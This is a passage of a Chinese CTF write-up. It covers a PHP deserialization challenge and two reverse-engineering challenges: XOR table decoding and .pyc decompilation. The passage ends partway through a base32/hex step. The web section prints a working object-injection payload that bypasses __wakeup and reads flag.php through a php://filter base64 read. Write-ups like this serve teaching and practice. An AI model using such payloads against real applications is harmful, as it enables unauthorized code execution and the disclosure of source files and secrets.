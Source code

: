 ​      *我们构造payload需要在本地先进行序列化

​      序列化后为了让对象销毁，我们要把序列化后的对象数1改成2，这样才能进入__destruct()。最后这个payload需要过正则，匹配前后双引号，同时能把flag.php的源码用base64打印出来。

Payload：`O:4:"flag":2:{s:3:"cmd";s:99:"123";echo $a;echo readfile("php://filter/read=convert.base64-encode/resource=flag.php");a();$b="123";}`

​		传上去后再解码一下base64就可以有flag了。

------

##  Reverse

### 一、MoeRe

​		Re一开始这题居然就有点难度，首先打开IDA查看核心代码

![](eqqie_photos/QQ截图20190907154921.png)

​		我们可以发现第一个for循环将输入的每个字符与题目给出的table一一对应进行按位异或（其实是ASCII之间的异或运算），超出部分取模。结合题目给出的一连串整数，应该想到，这连串整数就是运算结果。

​		由数学原理分析可以知道，把结果和字母表再进行一次按位异或就可以出输入的flag。

​		着手用python写脚本…….

​		用python写脚本主要要用到的几个函数是ord():把一个字符转换成ascii；chr():把ascii码转换成对应字符。

![](https://s2.ax1x.com/2019/09/16/nfRYZV.png)

​       最后运行一下脚本就可以出flag了！

 

### 二、.pyc

​       .pyc是python脚本编译成的二进制文件，直接打开是二进制数据，需要专门的工具进行逆向，比如**uncompyle6**，执行**uncompyle6 test.pyc > test1.py**就可以把.pyc逆向成.py

​      观察逆向后的代码：

![](https://s2.ax1x.com/2019/09/16/nfR8rq.png)

​      明显是一个多重加密并且知道加密后的值。

​      首先是b32加密后再用b2a_hex加密
